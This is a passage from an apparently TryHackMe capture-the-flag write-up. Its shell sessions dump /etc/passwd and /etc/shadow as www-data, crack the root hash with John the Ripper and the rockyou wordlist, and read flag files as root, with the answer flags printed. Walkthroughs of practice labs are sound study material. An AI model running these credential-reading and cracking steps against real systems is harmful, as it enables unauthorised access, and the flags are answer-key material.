 ```bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
www-data@66505608bd11:/$ cat /etc/shadow
cat /etc/shadow
root:$y$j9T$.9s2wZRY3hcP/udKIFher1$sIBIYsiMmFlXhKOO4ZDJDXo54byuq7a4xAD0k9jw2m4:18885:0:99999:7:::
daemon:*:18872:0:99999:7:::
bin:*:18872:0:99999:7:::
sys:*:18872:0:99999:7:::
sync:*:18872:0:99999:7:::
games:*:18872:0:99999:7:::
man:*:18872:0:99999:7:::
lp:*:18872:0:99999:7:::
mail:*:18872:0:99999:7:::
news:*:18872:0:99999:7:::
uucp:*:18872:0:99999:7:::
proxy:*:18872:0:99999:7:::
www-data:*:18872:0:99999:7:::
backup:*:18872:0:99999:7:::
list:*:18872:0:99999:7:::
irc:*:18872:0:99999:7:::
gnats:*:18872:0:99999:7:::
nobody:*:18872:0:99999:7:::
_apt:*:18872:0:99999:7:::
...
www-data@66505608bd11:/stage$ cat flag
cat flag
THM{4_the_murder_of_gonzago}
www-data@66505608bd11:/stage$ 
```

<br>

<p>1.6. Flag 5<br>
<code>THM{5_murder_most_foul}</code></p>

```bash
:~# john --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt hash
...
murder           (?)
...
Session completed. 
```



```bash
root@66505608bd11:/stage# cd /root
cd /root
root@66505608bd11:~# ls -lah
ls -lah
total 20K
drwx------ 1 root root 4.0K Sep 15  2021 .
drwxr-xr-x 1 root root 4.0K Sep 15  2021 ..
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
-rw-r--r-- 1 root root   24 Sep 16  2021 .flag
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
root@66505608bd11:~# cat .flag
cat .flag
THM{5_murder_most_foul}
root@66505608bd11:~# 
```
